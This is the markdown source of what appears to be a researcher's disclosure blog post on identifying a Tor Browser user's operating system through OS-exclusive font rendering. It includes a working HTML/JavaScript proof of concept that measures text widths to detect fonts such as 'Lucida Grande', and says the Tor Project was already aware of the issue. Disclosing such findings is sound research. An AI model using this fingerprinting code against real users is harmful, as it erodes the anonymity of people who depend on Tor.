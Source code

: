 ```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: ''
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos-figerprint.png
---
```


### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify a user's operating system behind Tor and after reporting this to the Tor Project I was aware that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor browser is based on Firefox, with its peculiarities and promises of digital privacy/anonymity, in addition to all its engineering to hide the IP from its user, Tor also promises to combat identifications that are linked to a person’s operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it.

However, it is possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users “Tor on Windows” would be the font “Comic Sans MS” among many other examples.

After reporting this problem, I was told that the Tor Project is already aware of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete.

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;

            var container = document.createElement('span');
            container.innerHTML = Array(100).join('wi');
            container.style.cssText = [
                'position:absolute',
                'width:auto',
                'font-size:128px',
                'left:-99999px'
            ].join(' !important;');

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            // Pre compute the widths of monospace, serif & sans-serif
            // to improve performance.
            var monoWidth  = getWidth('monospace');
            var serifWidth = getWidth('serif');
            var sansWidth  = getWidth('sans-serif');

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ',monospace') ||
                sansWidth !== getWidth(font + ',sans-serif') ||
                serifWidth !== getWidth(font + ',serif');
            };
        })(document);

        if (isFontAvailable('Lucida Grande')) {
            alert('You are using the MacOS plataform');
        }

        else {
            alert('You are not using the MacOs Platform');
        }
    </script>
</html>
```

User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos-figerprint.png)


User identification using Tor outside MacOS: 

![](/images/publications/tor-detect-platform/tor-browser-without-macos.jpeg)

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts...

---

### Impact

Through this technique it is possible to identify the operating system of a user who is using Tor, on a website with low traffic volume, this distinction is enough to exclusively track users, already for a high traffic website, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot.

---

### References

* [https://www.torproject.org/](https://www.torproject.org/)
* [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
* [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
* [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
